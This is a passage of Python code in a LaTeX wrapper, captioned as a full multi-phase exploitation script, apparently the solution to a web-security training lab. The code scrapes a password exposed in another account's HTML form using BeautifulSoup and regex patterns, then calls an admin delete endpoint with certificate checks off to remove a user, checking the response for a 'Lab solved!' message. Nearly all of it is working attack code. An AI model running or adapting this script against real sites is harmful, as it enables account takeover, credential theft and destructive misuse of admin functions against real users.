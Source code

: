 \documentclass[11pt,letterpaper]{article}
\begin{document}
\begin{verbatim}[language=python,caption={Full multi-phase exploitation script}]
        # Extract password from HTML
        print("[*] Extracting password from response...")

        # Method 1: BeautifulSoup
        soup = BeautifulSoup(response.text, 'html.parser')
        password_input = soup.find('input', {'name': 'password'})

        if password_input and password_input.get('value'):
            password = password_input['value']
            print(f"[+] Password extracted: {password}")
            return password

        # Method 2: Regex fallback
        patterns = [
            r'<input[^>]*name=["\']password["\'][^>]*value=["\']([^"\']+)["\']',
            r'<input[^>]*value=["\']([^"\']+)["\'][^>]*name=["\']password["\']',
            r'type=["\']password["\'][^>]*value=["\']([^"\']+)["\']'
        ]

        for pattern in patterns:
            match = re.search(pattern, response.text, re.IGNORECASE)
            if match:
                password = match.group(1)
                print(f"[+] Password extracted (regex): {password}")
                return password

        print("[-] Could not extract password from response")
        return None

    except requests.RequestException as e:
        print(f"[-] Error accessing account: {e}")
        return None

def delete_user(
    session: requests.Session,
    base_url: str,
    username: str
) -> bool:
    """Delete a user via admin panel."""
    delete_url = f"{base_url}/admin/delete?username={username}"

    print(f"[*] Deleting user '{username}'...")

    try:
        response = session.get(
            delete_url,
            verify=False,
            proxies=PROXIES,
            timeout=15,
            allow_redirects=True
        )

        if response.status_code == 200:
            if username.lower() not in response.text.lower():
                print(f"[+] Successfully deleted '{username}'!")
                return True

            if 'congratulations' in response.text.lower():
                print(f"[+] Lab solved! User '{username}' deleted.")
                return True

        print(f"[-] Deletion may have failed: {response.status_code}")
        return False


\end{verbatim}
\end{document}
